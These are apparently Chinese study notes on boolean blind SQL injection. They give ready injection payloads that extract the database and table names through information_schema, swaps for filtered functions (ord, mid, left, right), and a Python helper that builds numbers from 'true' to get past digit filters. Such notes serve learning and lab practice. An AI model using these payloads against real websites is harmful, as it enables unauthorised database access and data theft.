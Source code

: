 

HAVING 子句允许指定条件来过滤将出现在最终结果中的分组结果。

WHERE 子句在所选列上设置条件，而 HAVING 子句则在由 GROUP BY 子句创建的分组上设置条件。

where 被过滤时还可以使用 right/left/inner join 



盲注时数字被过滤，在 js 中数字几就是几个 true

```
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num
   
```



BENCHMARK 函数 用来测试数据库中特定表达式的执行时间，

BENCHMARK(loop_count, expr)，其中 loop_count 是循环次数，expr 是要循环的表达式。

### 布尔盲注

**概念：符合条件返回真值，不符合条件返回假值，利用二分法找到每个字母的 ascii 码值**

**统一 payload**：

```
?id=-1' and ascii(substr(‘abcd’,1,1))>100 --+
```

将 abcd 换为想要查询的语句即可，<font color=red> ascii 被过滤时使用 ord; substr 被过滤时使用 mid, left, right; 空格过滤可以使用`</font >

```
?id=-1' and ord(substr(‘abcd’,1,1))>100 --+
```



**查询库名:**

```
?id=-1' and ascii(substr((select database()),1,1))>100 --+
```

这段语句的意思是查询数据库名第一个字母的 ascii 码是否大于 100



**查询表名：**

```
?id=-1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+
```
